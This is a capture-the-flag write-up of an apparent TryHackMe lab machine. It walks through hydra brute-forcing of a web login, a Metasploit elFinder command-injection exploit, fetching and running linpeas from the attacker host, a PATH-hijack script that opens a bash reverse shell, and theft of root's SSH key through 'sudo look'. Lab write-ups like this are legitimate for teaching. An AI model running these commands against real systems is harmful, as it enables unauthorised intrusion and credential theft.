

First, we have to add the domain to the hosts file: 
`echo "<IP-Victim> lookup.thm" | sudo tee -a /etc/hosts`
`sudo sed -i '/lookup.thm/d;' /etc/hosts `

## Enumeration
We use gobuster and find nothing interesting


I tried slq injection but that did not work.

I checked in Burp Suite the requests: 


I executed nikto to prove some vulnerabilities for first reconnaissance:


I tried bruteforcing with hydra (But the error message is different when the username is valid and the password is not, so this is not correct): 
`hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form \
"/login.php:username=^USER^&password=^PASS^:Invalid username or password" -V -f -t 4`


Trying again with hydra with the message "Wrong password", but it detects another password, because it gives another error message with this combination: 
`hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form \ "/login.php:username=^USER^&password=^PASS^:Wrong password" -V -f -t 4`


We send it to the repeater: 


We've found a pattern, if the username is valid but the password doesn't, "Wrong password", if both aren't valid "Wrong username or password", and if username is valid and also the password is true but of another user "Wrong username or password"


I tried with hydra but the wordlist was enormous and wasn't viable (I stopped in 16096 of **8295455**): 
`hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p 'password123' lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password." -t 4 -V`

I tried another wordlist (names):
`hydra -L /usr/share/wordlists/SecLists/Usernames/Names/names.txt -p 'BadPass123' lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password." -t 4 -V`

`[80][http-post-form] host: lookup.thm   login: jose   password: BadPass123`


So we have the username "jose", we got it: 


When accessing by the login page it return us to "http://files.lookup.thm/" so we have to add it to the host file.
`echo "10.10.253.157 files.lookup.thm" | sudo tee -a /etc/hosts`

Then, we have access to this page: 


We've found this: 


So we search the vuln: 


elFinder before 2.1.48 has a command injection vulnerability in the PHP connector. The vulnerability occurs when performing image operations on JPEG files, where the filename is passed to the `exiftran` utility without proper sanitization, allowing command injection.

We can find the connector path with a grep pipe: 
```bash
curl -s http://files.lookup.thm/elFinder/elfinder.html | sed -n '1,200p' > elfinder.html                                                                                                                      
grep -n "connector" -n elfinder.html || grep -n "url" elfinder.html
```
Response: `url : 'php/connector.minimal.php' // connector URL (REQUIRED)`


We can search "elfinder" in metasploit:


We finally have access with metasploit:
```bash
search elfinder
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOST files.lookup.thm
set LHOST <your-ip>
exploit
```


`python3 -c 'import pty; pty.spawn("/bin/bash")'`


We inspect the machine:


We discovered a "think"  user.


We can try some commands:
`sudo -l`

From the attacker we have to run the server in a folder with the linpeas file:
```bash 
┌──(javnievic㉿kali)-[~/kali-lab/common-tools/Linux]
└─$ python3 -m http.server 8000
```


From the victim we have to run: 
```bash
curl http://YOUR_KALI_IP:8000/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```


We can inspect this.

When executing: 


We can also execute `strings /usr/sbin/pwm`, and this are the most important lines:
```bash
[!] Running 'id' command to extract the username and user ID (UID)
[-] Error executing id command
uid=%*u(%[^)])
[-] Error reading username from id command
[!] ID: %s
/home/%s/.passwords
[-] File /home/%s/.passwords not found
```

We can also observe that the program is calling `popen("id", "r")`: 
```bash 
popen
fgetc
__isoc99_fscanf
pclose
```

## Path hijacking

So, as it does not executing "id" by its absolute route ()
```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.8.87.146/4444 0>&1' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

This open a shell as www-data, this is not what we want.

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=44(think) gid=44(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```


On the attacker: 
```bash
nano passlist.txt  
hydra -l think -P passlist.txt ssh://10.10.63.133
```


On the victim we can  execute `su think` and pass `josemario.AKA(think)`

We can execute sudo -l: 


GTFOBins(https://gtfobins.github.io/gtfobins/look/)


Finally:
```bash
sudo look '' /root/.ssh/id_rsa > /tmp/id_rsa
chmod 600 /tmp/id_rsa
ssh -i /tmp/id_rsa root@TARGET_IP
```
